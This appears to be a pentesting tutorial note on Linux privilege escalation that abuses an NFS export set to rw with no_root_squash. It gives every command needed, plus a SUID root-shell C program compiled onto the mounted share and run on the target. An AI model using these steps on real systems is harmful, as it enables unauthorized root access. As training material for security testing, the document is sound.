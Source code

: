# Privileges Escalation - Linux
# NFS Server exploitation

When we're inside the target machine, we have to check if it's an **NFS (Network File System) server**, in which we could mount locally directories from remote and try to exploit the NFS vulnerability (if there's one).

- [First step - on the target](#first-step---on-the-target)
- [Second step - on our machine](#second-step---on-our-machine)
- [Last step - on the target](#last-step---on-the-target)


## First step -  on the target
- Check if it's an NFS server with `cat /etc/exports`.
  - The output should be `<Remote dir> <Target IP>(<Permissions>)`
  - No output if no NFS service running on it.
- If we get `rw` permissions and also `no_root_squash` option, **we found a vulnerability**, so we can proceed.**
  - `no_root_squash` option means that if the client loads a file with UID = 0 (root), the NFS server keeps it. 

## Second step - on our machine
- We have to log in as root, so `sudo su`.
- Then let's create the NFS share: `mkdir /tmp/nfs`.
- And let's mount the remote directory on it: `mount -o rw,vers=3 <Target IP>:<Remote dir> /tmp/nfs` 
- Now we have to create a `rootshell.c` file to run a privileged shell:
  ```
  #include <stdlib.h>
  int main() {
      setuid(0);
      setgid(0);
      system("/bin/bash -p");
      return 0;
  }
  ```  
- In the end, let's compile it with `gcc rootshell.c -o /tmp/nfs/rootshell.elf` and set the SUID bit: `chmod +xs /tmp/nfs/rootshell.elf` 

## Last step - on the target
- We can now launch the privileged shell from the exposed directory (`/tmp`) with `/tmp/rootshell.elf`.
- We should be able to gain access to a root shell. Check it with `whoami`.



